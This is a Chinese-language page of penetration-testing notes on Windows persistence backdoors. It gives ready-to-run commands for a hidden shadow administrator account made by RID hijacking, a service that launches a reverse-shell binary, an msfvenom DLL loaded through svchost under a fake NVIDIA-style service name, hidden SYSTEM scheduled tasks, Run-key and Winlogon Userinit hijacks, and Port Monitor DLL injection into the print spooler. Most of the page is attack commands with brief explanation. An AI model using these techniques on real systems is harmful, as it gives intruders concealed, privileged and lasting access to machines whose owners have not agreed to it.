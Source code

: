 # 常见系统后门

#### 影子账户

创建影子账户

```
net user Adminstrator$ P@ssW0rd! /add
```

定位到`计算机\HKEY_LOCAL_MACHINE\SAM\SAM`右键权限将Administrator用户设置为完全控制, 展开Domains，复制`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`中administrator用户建制类型"0x1f4"相同的目录名"0000001F4"表项F的二进制值

```
02 00 01 ...........
```

相同的方法找到影子账户Adminstrator$对应的目录"0000003EA"，将Administrator的F键值替换到影子账户的F键值，实现劫持Administrator用户的RID效果，并选中"Adminstrator$"表项与"0000003EA"一并导出后，删除影子账户

```
net user Adminstrator$ /del
```

将删除掉影子账户注册表重新导入回注册表，完成影子账户创建，实现效果只能从注册表中查看，隐藏了本地用户和组

#### 系统服务后门

* 对于自启动后门，攻击人员可以将服务运行的二进制文件路径设置后后门程序

**创建系统服务**

sc创建服务(修改服务为sc config)：binpath指定二进制文件路径，注意=号后有空格，start指定启动类型，obj指定服务启动权限

```
sc create Backdoor binpath= "cmd.exe /k C:\Windows\System32\reverse_tcp.exe" start= "auto" obj= "localsystem" 
```

**svchost.exe启动服务利用**

* svchost.exe为许多服务的宿主，是DLL中运行服务的通用主机进程名称
* 需要由svchost.exe进程启动的服务都以DLL形式实现
* svchost.exe的所有服务分组位于计算机\HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost中

生成DLL文件马

```
msfvenom -p .... -f dll -o xxx.dll
```

上传DLL到目标主机System32目录

```
copy .\xxx.dll \\10.10.10.10\C$\Windows\System32
```

创建后门服务并以svchost加载的方式启动。服务分组为netsvc

```
sc create Backdoor binPath= "C:\Windows\S
ystem32\svchost.exe -k netsvc" start= auto obj= LocalSystem
```

将Backdoor服务启动时加载的DLL为xxx.dll

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Backdoor\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Windows\System32\0.108.9876.dll"
```

配置服务详细

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Backdoor /v Description /t REG_SZ /d "Windows NVADIA Service"
```

配置服务显示名称

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Backdoor /v DisplayName /t REG_SZ /d "Backdoor"
```

创建服务新分组，将Backdoor服务添加进去，重启上线

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvc /t REG_MULTI_SZ /d Backdoor
```

#### 计划任务后门

* 通过创建计划任务让目标主机在特定的时间点或规定的周期内重复运行测试人员预先准备的后门程序，从而实现权限持久化

在目标主机创建一个名为Backdoor的计划任务，每天8:00以System权限运行一次后门程序

```
schtasks /Create /TN Backdoor /SC daily /ST 08:00 /MO 1 /TR C:\108.exe /RU System /F
```

隐藏式计算任务在`\Microsoft\Windows\AppTask`路径下创建`AppRun`计划任务后门

```
schtasks /Create /TN \Microsoft\Windows\AppTask\AppRun /sc daily /ST 08:00 /MO 1 /TR C:\108.exe /RU System /F
```

#### 启动项&注册表后门

* 将程序放置在启动文件夹中会导致该程序在用户登录时执行

位于以下目录中的程序将在指定用户登录时启动

```
C:\Users\[用户名]\AppData\Roaming\Microsoft\Windows\Start
C:\Users\[用户名]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

位于以下目录中的程序将在所有用户登录时启动

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StarUp
```

**运行键**

* 当用户登录时，系统会依次检查位于注册表运行键(Run keys)中的程序，并在用户登录上下文中启动

以下注册表项中的程序将在当前用户登录时启动

```
计算机\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
计算机\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

以下注册表项中的程序将在所有用户登录时启动

```
计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

在注册表运行键添加名为BackDoor的后门键

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\System32\0.108.exe"
```

**Winlogon Helper**

* Winlogon为系统组件，用于处理用户有关的各种行为，如登录、注销、锁定屏幕等，这些行为由系统注册表管理

常见的滥用注册表键值，一个为指定用户登录时执行的用户初始化程序，默认为userinit.exe，一个为指定Windows身份验证期间执行的程序，默认为explorer.exe

```
计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
```

在Userinit键上添加108.exe后门程序(后门程序需要被上传到C:\Windows\System32\当中)

```
reg add "\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\System32\userinit.exe,108.exe" /f
```

**Port Monitors(本地端口监视器)**

* 在print spooler(打印后台处理服务)中，Print Spooler APi存在AddMonitors函数，用于安装Port Monitors(本地端口监视器，并连接配置、数据和监视器文件)
* AddMonitor函数能将DLL注入spoolsv.exe进程

将生成的DLL上传到目标主机的C:\Windows\System32目录，通过编辑注册表安装一个端口监视器,print spooler服务启动过程中会读取Monitors注册表项的所有子键，并以SYSTEM权限加载Driver的键值所指定的DLL文件

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Print\Monitors\TestMonitor" /v "Driver" /t REG_SZ /d "0.108.9876.dll"
```
